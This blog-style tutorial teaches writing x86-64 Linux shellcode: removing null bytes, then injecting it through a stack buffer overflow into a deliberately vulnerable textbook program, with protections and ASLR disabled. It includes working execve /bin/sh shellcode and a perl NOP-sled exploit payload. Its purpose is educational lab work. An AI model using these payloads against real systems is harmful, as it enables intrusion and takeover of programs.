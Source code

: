 #+title: Write your own shellcode
#+description: Ever dreamed about being a hacker and writing your own exploits? Learn the art of crafting shellcodes and uncover their secrets.
#+publishdate: 2024-10-19
#+cover: ../../images/covers/write-shellcode.png
#+options: ^:nil

* What's a shellcode?

In the software realm, a shellcode is a set of instructions that attackers inject into a program to execute arbitrary commands. Commonly, they use it to spawn a shell. However, you can do whatever you wish to. For example, print something to stdout, create files, and open a port, to name a few.

In this post, I will show you the basics of building a shellcode and how to avoid the most common pitfalls when executing it in an exploit.


* Building a shellcode

A shellcode is built in assembly. Why assembly? Because they are injected into running programs that are already compiled, assembled, and linked. Once in runtime, the CPU is just reading machine instructions. Thus, we need to inject assembly instructions.

Building an assembly program can seem hard but there are lots of resources where you can learn about it.

- https://github.com/mschwartz/assembly-tutorial?tab=readme-ov-file
- https://nasm.us/docs.php
- https://learnxinyminutes.com/docs/mips/
- https://cs.lmu.edu/~ray/notes/nasmtutorial/
- https://portal.cs.umbc.edu/help/nasm/sample_64.shtml

You must also know where to get the machine instructions for a given architecture. You can get the information from the system. For example, my 64-bit Linux machine has the file ~/usr/include/x86_64-linux-gnu/asm/unistd_64.h~ with the information.

#+begin_src C
#ifndef _ASM_UNISTD_64_H
#define _ASM_UNISTD_64_H

#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
#define __NR_close 3
#define __NR_stat 4
#+end_src

Alternatively, you can search for that information on the Internet, for example, https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ or https://j00ru.vexillium.org/syscalls/nt/64/.

Let's start writing a simple program to print to the stdout.

** Hello world assembly


#+begin_src asm
BITS 64 ; Define target architecture bits

section .data ; Data segment
msg db "Hello, world!", 0x0a; String with new line char

section .text ; Text segment
global _start; Default entry point for ELF linking

_start:

; write
mov rax, 1 ; Specify write syscall
mov rbx, 1 ; Specify stdout by putting 1 into rbx
mov rsi, msg ; Put the address of the string into rsi
mov rdx, 14 ; Put the length of the string into rdx
syscall ; Execute the system call

; exit
mov rax, 60 ; Specify exit syscall
mov rbx, 0 ; Exit with success
syscall ; Execute the system call
#+end_src

The program is simple. We define the target architecture bits, create a static string, and print it into stdout. Assembling, linking, and executing the binary is also very simple.

#+begin_src bash
nasm -f elf64 helloworld.asm
ld helloworld.o
./a.out
#+end_src

See how it works and experiment a bit.

Taking that program as a basis, we will now see the different restrictions that we have to build a fully functional shellcode.

** No segments

We inject shellcodes into running programs. Hence, we cannot specify the data layout nor use other data segments like in the previous example. The instructions must be self-contained. For instance, we cannot declare a static string. We need to mix it with the other instructions.

Removing the segments is easy, but... how can we mix the string? The stack will be our ally. Remember that when calling a function, a stack frame is created with the arguments, the local variables, and the return address. We can misuse that in assembly to load a string. The idea is to place the string directly after a call instruction. That way the return address of the stack will match the address of the string and we will be able to retrieve it inside the function.

#+begin_src asm
BITS 64

call below
db "Hello, world!", 0x0a

below:
; write
mov rax, 1
mov rdi, 1
; Pop the value from the return address 
; and store it into the register
pop rsi 
mov rdx, 14
syscall

; exit
mov rax, 60
mov rdi, 0
syscall
#+end_src

Try it out and experiment with it.

In some situations that's the only technique you will need to inject a shellcode. However, there are some occasions where this may fall short and you will get a segmentation fault. Often, shellcodes are injected as strings with functions like ~strcpy~. These types of functions terminate at the first null byte. If we want it to work as expected, we must remove the null bytes.

** No null bytes

There are different techniques to remove null bytes. Let's see our starting point.

#+begin_src
  nasm helloworld.asm
  hexdump -C helloword
#+end_src

[[../../images/write-your-own-shell/hexdump-t0.png]]

Notice how many ~00~ are there. These are the null bytes.

*** Jump to the end and back

~call~ instructions allow for "long" jumps. Using it for "small" jumps as we are doing in our shellcode means that the operand doesn't fill the entire space reserved for the operand value, and it gets padded with null bytes.

We can us the two's complement to avoid that. If we pass a negative number to the ~call~ instruction, the value will be padded with ~0xff~ instead of null bytes. A standard implementation of this solution consists of jumping to the end of the assembly program to a ~call~ instruction that will jump back to a function.

#+begin_src asm
BITS 64

jmp short bottom

above:
; write
mov rax, 1
mov rdi, 1
pop rsi
mov rdx, 14
syscall

; exit
mov rax, 60
mov rdi, 0
syscall

bottom:
call above
db "Hello, world!", 0x0a
#+end_src

[[../../images/write-your-own-shell/hexdump-t1.png]]

We removed some null bytes.

*** Use smaller registers

Computers have 16 registers. 64-bit registers are built on top of old registers. For instance, EAX is part of RAX and it contains its first 32 bits.

| 64-bit register | Lower 32 bits | Lower 16 bits | Lower 8 bits |
|-----------------+---------------+---------------+--------------|
| rax             | eax           | ax            | al           |
| rbx             | ebx           | bx            | bl           |
| rcx             | ecx           | cx            | cl           |
| rdx             | edx           | dx            | dl           |
| rsi             | esi           | si            | sil          |
| rdi             | edi           | di            | dil          |
| rbp             | ebp           | bp            | bpl          |
| rsp             | esp           | sp            | spl          |
| r8              | r8d           | r8w           | r8b          |
| r9              | r9d           | r9w           | r9b          |
| r10             | r10d          | r10w          | r10b         |
| r11             | r11d          | r11w          | r11b         |
| r12             | r12d          | r12w          | r12b         |
| r13             | r13d          | r13w          | r13b         |
| r14             | r14d          | r14w          | r14b         |
| r15             | r15d          | r15w          | r15b         |

When using bigger registers, values are padded with null bytes if they can't fill the space. Therefore, we want to use the smallest register possible in each operation. However, the remaining bytes can contain any data. We need to zero them out. This can be easily achieved with the xor operation. Additionally, calling ~mov register, 0~ adds null bytes. We need to use ~dec register~.

#+begin_src asm
BITS 64

jmp short bottom

above:
; write
xor rax, rax
inc al
xor rdi, rdi
inc rdi
pop rsi
xor rdx, rdx
mov dl, 14
syscall

; exit
mov al, 60
dec rdi
syscall

bottom:
call above
db "Hello, world!", 0x0a
#+end_src

[[../../images/write-your-own-shell/hexdump-t2.png]]

We removed all the null bytes!!! This is it. Shellcodes are just a matter of executing system calls and avoiding null bytes. Let's try it out with a hands-on exercise.

* Experiment with shellcode injection

Relevant system information:

- Linux 5.15.0-122-generic x86_64
- Intel(R) Core(TM) i7-10510U CPU
- Little Endian
- 48 bits address size

All the vulnerable programs are from Hacking: The Art of Exploitation, 2nd Edition. Get the source code from https://github.com/intere/hacking/blob/master/booksrc.

We will use two programs from the book: ~getenvaddr.c~ and ~notesearch.c~ (that requires ~hacking.h~). We will store the shellcode in an environment variable and inject it into the vulnerable program with a stack-based buffer overflow. If you want to learn more about stack-based buffer overflows and how to take advantage of the environment, you can check [[../stack-based-buffer-overflows][Stack-based buffer overflows]] and [[../store-shellcode-in-environment-variable][Store shellcode in environment variable]].

Let's compile the programs. Notice how we disable all the security measures for the vulnerable program.

#+begin_src bash
gcc getenvaddr.c -o getenvaddr
gcc notesearch.c -o notesearch -fno-stack-protector -z execstack -no-pie -g
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
#+end_src

Now, we have to:

1. Assemble the shellcode
2. Export the shellcode into an environment variable
3. Check the address of the environment variable from the vulnerable program point of view
4. Inject the code into the vulnerable program

Which translates into the following.

#+begin_src bash
nasm helloworld.asm
export SHELLCODE=$(cat helloworld)
~/Desktop/getenvaddr SHELLCODE ~/Desktop/notesearch
~/Desktop/notesearch $(perl -e 'print "\x90" x 120, "\xab\xef\xff\xff\xff\x7f\x00\x00"')
#+end_src

[[../../images/write-your-own-shell/write-stdout-exploit.png]]

Cool! We managed to take control of the program and print what we wanted to the stdout.
This is rather dull. Let's try to get a shell prompt!!!

What would this look like in C?

#+begin_src C
#include <stdlib.h>

int main(int argc, char *argv[]) {
    system("/bin/sh");
}
#+end_src

You can try it out with ~gcc shell.c -o shell; chmod +x shell; ./shell~.

If you search on the internet, you will find that [[https://man7.org/linux/man-pages/man3/system.3.html][system]] internally calls [[https://man7.org/linux/man-pages/man3/execl.3.html][execl]], which is build on top of the [[https://man7.org/linux/man-pages/man2/execve.2.html][execve]] system call. Execve receives three parameters: the program, the argument to the program, and key-value pairs to be passed as the environment. In our case, to spawn a shell, we are only interested in the first argument. Overall, building an assembly program that spawns a shell seems easy. Just call ~execve~ with ~/bin/sh~ as the program name.

#+begin_src asm
BITS 64

jmp short bottom

above:
; write
xor rax, rax
mov al, 59
xor rdi, rdi
pop rdi
xor rsi, rsi
xor rdx, rdx
syscall

; exit
mov al, 60
dec rdi
syscall

bottom:
call above
db "/bin/sh"
#+end_src

Let's try to inject it.

#+begin_src bash
nasm shell.asm; \
export SHELLCODE=$(cat shell); \
~/Desktop/getenvaddr SHELLCODE ~/Desktop/notesearch; \
~/Desktop/notesearch $(perl -e 'print "\x90" x 120, "\xb3\xef\xff\xff\xff\x7f\x00\x00"')
#+end_src

[[../../images/write-your-own-shell/shell-exploit.png]]

We got shell access!!! 
